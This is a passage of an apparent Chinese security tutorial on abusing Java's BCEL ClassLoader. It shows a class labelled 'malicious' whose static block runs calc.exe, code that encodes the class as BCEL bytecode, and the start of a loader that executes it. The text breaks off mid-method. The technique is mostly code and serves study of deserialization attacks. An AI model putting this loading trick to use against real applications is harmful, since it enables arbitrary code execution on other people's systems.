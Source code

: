 
可以理解为是传统字节码的16进制编码，然后将 \\ 替换为 $ ，默认还会在最外层加上 GZip 压缩

边写恶意类

    package org.gk0d;
    
    import java.io.IOException;
    
    public class calc{
        static  {
            try {
                Runtime.getRuntime().exec("calc.exe");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    
    }
    

然后通过BCEL提供的两个类`Repository`和`utility`来利用:

    Repository用于将一个Java Class先转换成原生字节码（也可以直接javac编译获得）；
    
    utility用于将原生字节码转换成BCEL格式的字节码
    

    package org.gk0d;
    
    import com.sun.org.apache.bcel.internal.Repository;
    import com.sun.org.apache.bcel.internal.classfile.JavaClass;
    import com.sun.org.apache.bcel.internal.classfile.Utility;
    
    public class POP {
        public static void main(String[] args) throws Exception{
            JavaClass javaClass = Repository.lookupClass(calc.class);
            String code = Utility.encode(javaClass.getBytes(),true);
            System.out.println(code);
        }
    }
    

![](https://img2022.cnblogs.com/blog/3010963/202210/3010963-20221031162119779-659270308.png)

最后用BCEL ClassLoader加载这串特殊的字节码，并执行里面的代码：

    package org.gk0d;
    
    import com.sun.org.apache.bcel.internal.Repository;
    import com.sun.org.apache.bcel.internal.classfile.JavaClass;
    import com.sun.org.apache.bcel.internal.classfile.Utility;
    import com.sun.org.apache.bcel.internal.util.ClassLoader;
    
    public class Test {
        public static void main(String[] args) throws Exception{
            c();
        }
        private static void b() throws Exception{
            JavaClass javaClass = Repository.lookupClass(a.class);
            String code = Utility.encode(javaClass.getBytes(),true);
            System.out.println(code);
        }
        private static void c() throws Exception {